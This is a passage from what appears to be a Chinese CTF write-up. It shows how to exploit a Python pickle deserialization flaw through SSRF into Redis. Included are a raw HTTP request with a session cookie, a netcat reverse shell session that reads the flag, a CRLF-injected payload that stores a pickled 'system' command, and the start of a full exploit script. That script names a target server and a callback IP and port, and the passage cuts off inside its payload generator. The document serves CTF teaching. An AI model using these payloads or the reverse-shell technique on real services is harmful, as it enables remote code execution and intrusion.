 利用b用户（d11dd213）的session登录，触发反序列化漏洞

```python
GET / HTTP/1.1
Host: 47.93.12.191:7002
Accept: */*
Origin: http://47.93.12.191:7002
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Referer: http://47.93.12.191:7002/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=d11dd213-7e07-42b9-81be-31531f7fbbfa.BPuavI7NwQ4CvtwE8bAP4u0cQMY; BD_UPN=123253
Connection: close

```

即可触发反连，获得shell

```bash
➜ nc -l 8888
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')" # 优化tty
bash: /root/.bashrc: Permission denied
uwsgi@c20357aa5138:/$ ls
ls
aeh0iephaeshi9eepha6ilaekahhoh9o_flag  boot  home   media  proc  sbin  tmp
app				       dev   lib    mnt    root  srv   usr
bin				       etc   lib64  opt    run	 sys   var
uwsgi@c20357aa5138:/$ cat ae*
cat ae*
THUCTF{22xxr2sdcvsdg43tr4vdccc}
```

当然也可以不反弹shell，可以直接利用输出重定向，把命令输出写到一个文件里，然后在利用file协议读取即可，payload如下：

```
url=http://127.0.0.1:6379?%0d%0aset "session:d11dd213-7e07-42b9-81be-31531f7fbbfa" "cposix\nsystem\np1\n(S'echo `ls` > /tmp/xuan'\np2\ntRp3\n."%0d%0apadding
```

## 完整exp

直接用python脚本实现的exp，而且这里我的环境是校园内网，服务器是直接能访问到本机的，所以直接在本地起了nc，shell可以直接弹回本机

```python
#!/usr/bin/env python
# -- coding:utf-8 --
# Author:	xuanxuan
# Date:		2019-10-13

import cPickle
import requests
import os,time
import platform

base_url = "http://47.93.12.191:7002"
server_ip = "183.172.81.163"
server_port = 8888
shellcode = ""

def gen_shellcode():
	global shellcode
	class exp(object):
	    def __reduce__(self):
```